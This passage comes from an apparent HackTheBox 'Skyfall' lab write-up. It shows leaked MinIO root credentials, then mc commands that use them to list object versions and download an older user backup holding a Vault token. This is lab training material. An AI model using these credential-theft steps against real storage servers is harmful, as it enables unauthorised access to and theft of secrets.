 ![GET REquest Will Be Changed.png]![image](https://github.com/0xliberta/0xliberta.github.io/assets/154480148/f893cc68-bf0d-4329-83dc-51d9adb8c5e1)


![Following the POC to get Root Creds.png]![image](https://github.com/0xliberta/0xliberta.github.io/assets/154480148/e61ad6b6-8357-4d75-b633-912490d57efe)


```bash
"MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww"
"MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0"
```

### Establishing Communication with MinIO Server

We will use these credentials to set an authenticated alias through `mc` [MinIO Client](https://dl.min.io/client/mc/release/linux-amd64/) binary. This will enable us to seamlessly communicate with the server hosted at `http://prd23-s3-backend.skyfall.htb`

![image](https://github.com/0xliberta/0xliberta.github.io/assets/154480148/6c363749-0356-4ede-a0bb-2558c934db15)


![image](https://github.com/0xliberta/0xliberta.github.io/assets/154480148/4bab498d-4fa9-4251-91d8-5f5cd7cacf53)

```bash
./mc alias set BassalMinio http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0 
Added `BassalMinio` successfully.
```

![image](https://github.com/0xliberta/0xliberta.github.io/assets/154480148/2ba339fc-8c59-4ad3-93ae-3868e5cbb53b)


## Extracting Secrets from MinIO Backup

### Obtaining Backup Files from MinIO

Once we've set up the alias, let's proceed to retrieve a specific version of a backup file for the `askyy` user, which contains the API_VAULT_TOKEN.

```bash
1) ./mc ls --recursive --versions BassalMinio #TO RECURSIVLY(ENCLUDING THE SUBDIRECTORIS) LIST OBJECTS
2) ./mc cp --vid 2b75346d-2a47-4203-ab09-3c9f878466b8 BassalMinio/askyy/home_backup.tar.gz ./home_backup.tar.gz # "--vid" Version ID
```

![mc ls.png]![image](https://github.com/0xliberta/0xliberta.github.io/assets/154480148/b8321594-036c-431b-b420-5c0be520b4df)


![Downloading home_backup.tar.gz .png]![image](https://github.com/0xliberta/0xliberta.github.io/assets/154480148/c4533e63-8c12-4ce9-ba6a-53267ea83986)


### Extracting Vault API Tokens from Backup

Extract the file and obtain the API_VAULT_TOKEN using the following steps ..
